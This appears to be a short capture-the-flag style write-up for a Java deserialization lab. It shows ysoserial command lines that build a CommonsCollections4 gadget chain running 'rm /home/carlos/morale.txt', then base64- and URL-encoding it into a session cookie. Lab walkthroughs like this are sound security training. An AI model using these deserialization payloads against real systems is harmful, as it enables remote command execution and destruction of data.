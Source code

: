
> java -jar ysoserial-all.jar \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \ --add-opens=java.base/java.net=ALL-UNNAMED \ --add-opens=java.base/java.util=ALL-UNNAMED \ [payload] '[command]' 

1. The above command are useful if your Java version is above > 16
2. Download the file at [https://github.com/frohoff/ysoserial/releases/tag/v0.0.6](https://github.com/frohoff/ysoserial/releases/tag/v0.0.6)
3. Log in using `wiener` account;
4. Verify that the session cookie, have a serialized object;

![](/static/img/Pasted_image_20231126200926.png)
5. Execute the following command to remove the `carlos` user;

```bash
java -jar ysoserial-all.jar \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \ --add-opens=java.base/java.net=ALL-UNNAMED \ --add-opens=java.base/java.util=ALL-UNNAMED \ CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

![](/static/img/Pasted_image_20231127085426.png)

> Download Java 8 it's better

6. URL encode all data and send

![](/static/img/Pasted_image_20231127090620.png)

![](/static/img/Pasted_image_20231127090629.png)